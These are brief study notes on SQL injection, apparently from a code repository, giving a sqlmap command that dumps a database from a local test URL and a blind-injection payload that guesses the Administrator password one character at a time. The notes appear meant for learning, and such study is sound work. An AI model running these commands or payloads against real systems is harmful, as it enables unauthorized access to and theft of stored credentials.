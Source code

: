 ### N o T e S

---

```py
python sqlmap.py -u http://127.0.0.1/xxxxxxxxxx/fetch?id=1 --dump
```

---

Blind SQL is the SQLI where we don't get any errors or outputs of our SQL query from the database.

1. `UNION` attacks are not that affective.
2. `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm` : Use payloads and check for the outputs reflected on page.



